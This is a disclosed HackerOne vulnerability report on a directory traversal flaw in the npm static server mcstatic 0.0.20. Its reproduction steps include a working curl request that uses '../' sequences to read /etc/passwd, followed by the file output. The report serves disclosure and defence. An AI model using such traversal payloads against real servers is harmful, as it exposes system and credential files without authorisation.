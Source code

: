 # [mcstatic] Server Directory Traversal

## Report Details
- **Report ID**: 330285
- **URL**: https://hackerone.com/reports/330285
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-03-27T09:25:33.344Z
- **Disclosed**: 2018-06-12T08:16:18.153Z

## Reporter
- **Username**: tungpun
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a Server Directory Traversal in **mcstatic**.
It allows reading local files on the target server.

# Module

**module name:** mcstatic
**version:** 0.0.20
**npm page:** `https://www.npmjs.com/package/mcstatic`

## Module Description

Static Http server for mocking and stuff

# Vulnerability

## Steps To Reproduce:

* Install the module

`$ npm i mcstatic`

* Start the server

`$ ./node_modules/mcstatic/bin/mcstatic --port 6060`

* Using the below request to access the file `/etc/passwd` on the target server:

```
$ curl --path-as-is 'http://127.0.0.1:6060/../../../../../../../../../etc/passwd'
##
# User Database
#
# Note that this file is consulted directly only when the system is running
# in single-user mode.  At other times this information is provided by
# Open Directory.
#
# See the opendirectoryd(8) man page for additional information about
# Open Directory.
##
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
root:*:0:0:System Administrator:/var/root:/bin/sh
...
```

## Supporting Material/References:

* node v8.10.0
* npm 5.6.0
* curl 7.54.0

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

reading local files on the target server

## Attachments
No attachments
